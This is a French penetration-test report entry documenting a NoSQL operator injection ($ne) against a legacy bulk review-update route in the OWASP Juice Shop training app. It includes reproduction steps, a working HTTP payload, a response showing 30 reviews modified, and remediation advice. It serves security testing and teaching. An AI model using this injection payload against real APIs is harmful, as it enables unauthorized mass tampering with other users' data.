

# Test T-A05-04 -- Injection NoSQL sur l'interface héritée de modification groupée d'avis (NoSQL Manipulation)

**Catégorie :** A05 -- Injection

**1. Description générale**

Ce test vise à évaluer si une route héritée de l'API, destinée à un usage B2B de modification groupée d'avis produits, valide correctement le critère de sélection fourni par le client, ou si elle est vulnérable à une injection d'opérateur NoSQL (MongoDB) permettant de sélectionner et modifier un ensemble de documents plus large que prévu.

**2. Faille spécifique**

L'analyse du processus de soumission d'avis produit a révélé l'existence d'une route héritée destinée initialement à un usage B2B (PATCH /rest/products/reviews), ne référençant aucun identifiant de produit dans l'URL contrairement à la route standard (PUT /rest/products/{id}/reviews). Cette route attend un critère de sélection dans le corps de la requête, sous le champ id. L'envoi d'un objet contenant l'opérateur MongoDB ne ("id": {" ne": -1}) au lieu d'un identifiant numérique valide a permis de sélectionner l'intégralité des avis existants — la condition « identifiant différent de -1 » étant vraie pour tous les documents — résultant en la modification simultanée de 30 avis produits en une seule requête.

**3. Étapes de reproduction**

*Préconditions : compte utilisateur authentifié sur Juice Shop, connaissance de l'endpoint hérité /rest/products/reviews.*

1.  Se connecter à Juice Shop et soumettre un avis normal sur un produit, afin d'observer le comportement standard.

2.  Intercepter cette requête avec Burp Suite : noter le format PUT /rest/products/{id}/reviews, avec un identifiant de produit présent dans l'URL.

3.  Identifier la route héritée PATCH /rest/products/reviews (sans identifiant dans l'URL), destinée à un usage B2B de modification groupée.

4.  Envoyer une requête PATCH vers cette route avec le corps suivant : {"message": "test_nosqli", "id": {"$ne": -1}}.

5.  Envoyer la requête et observer la réponse.

6.  Vérifier le champ modified dans la réponse JSON.

7.  Confirmer visuellement sur l'interface que plusieurs produits affichent désormais le même avis injecté.

Résultat obtenu : la réponse indique "modified": 30, confirmant que l'ensemble des avis de la base de données a été modifié par une seule requête, avec un message de succès confirmant la résolution du challenge applicatif « NoSQL Manipulation ».

**4. Preuve de concept**

Requête normale, comportement attendu — un seul avis ajouté au produit ciblé :

```http
PUT /rest/products/6/reviews HTTP/1.1

Host: localhost:3000

Content-Type: application/json

{

    "message": "test_nosqli",

    "author": "test@example.com"

}
```

Réponse : {"status":"success"}

Requête exploitée sur la route héritée, avec injection de l'opérateur MongoDB $ne :

```http
PATCH /rest/products/reviews HTTP/1.1

Host: localhost:3000

Content-Type: application/json

{

    "message": "test_nosqli",

    "id": { "$ne": -1 }

}
```

Réponse 200 OK confirmant l'exploitation — 30 documents modifiés :

```json
{

    "modified": 30,

    "original": [{

            "message": "One of my favorites!",

            "author": "admin@juice-sh.op",

            "product": 1,

            "_id": "2LBKZaLjvw5yHPbfB"

        },

        {

            "message": "Rad, dude!",

            "author": "mc.safesearch@juice-sh.op",

            "product": 37,

            "_id": "2S2BX6odhohETviZX"

        }

        // ... 28 autres documents modifiés

    ]

}
```

Confirmation visuelle : plusieurs produits différents affichant tous le même avis injecté « test_nosqli », avec le message de confirmation du challenge résolu :



*Figure 43. Confirmation visuelle : l'avis modifié apparaît identiquement sur plusieurs fiches produits différentes.*

**5. Impact**

| Aspect | Impact | Sévérité |
|---|---|---|
| Confidentialité | Faible dans ce cas précis (pas de lecture de données supplémentaires) | Faible |
| Intégrité | Modification massive et non autorisée de données appartenant à d'autres utilisateurs, en une seule requête | Critique |
| Disponibilité | Un usage malveillant à plus grande échelle (suppression au lieu de modification) pourrait corrompre l'intégralité d'une collection de données | Critique |


Un attaquant peut remplacer instantanément l'ensemble des avis produits de la plateforme par du contenu arbitraire (spam, contenu offensant, désinformation), endommageant la crédibilité de la plateforme en une seule requête. Le même principe d'opérateur $ne pourrait s'appliquer à une route de suppression si elle existe avec une logique similaire, permettant une suppression de masse de données. Cette faille illustre enfin une rupture totale du principe selon lequel chaque utilisateur ne devrait pouvoir modifier que ses propres contributions : ici, un utilisateur standard modifie les avis de tous les autres utilisateurs, y compris ceux d'administrateurs. Cette vulnérabilité illustre par ailleurs la combinaison de deux défaillances distinctes : une route héritée non désactivée après son remplacement (relevant de la catégorie A02 — Security Misconfiguration) exploitée par une injection NoSQL (A05 — Injection), soulignant l'importance de retirer complètement les anciennes interfaces API lors de leur remplacement plutôt que de les laisser accessibles en parallèle.

**6. Remédiation**

-   Valider strictement le type et le format de toute entrée utilisée dans un critère de sélection de base de données : rejeter toute valeur qui n'est pas une chaîne de caractères ou un nombre simple lorsque c'est ce qui est attendu.

-   Utiliser une librairie de validation de schéma (ex. joi, express-validator) pour rejeter toute entrée contenant des clés commençant par $ ou des objets là où une valeur primitive est attendue.

-   Supprimer entièrement les routes héritées après migration vers leur remplaçant, plutôt que de les laisser actives en parallèle.

-   Toujours vérifier la propriété (ownership) de la ressource avant toute modification, indépendamment de la validation du format d'entrée.

-   Utiliser un ODM (Object-Document Mapper, ex. Mongoose) avec des schémas stricts rejetant nativement les opérateurs MongoDB injectés dans des champs censés être des valeurs simples.
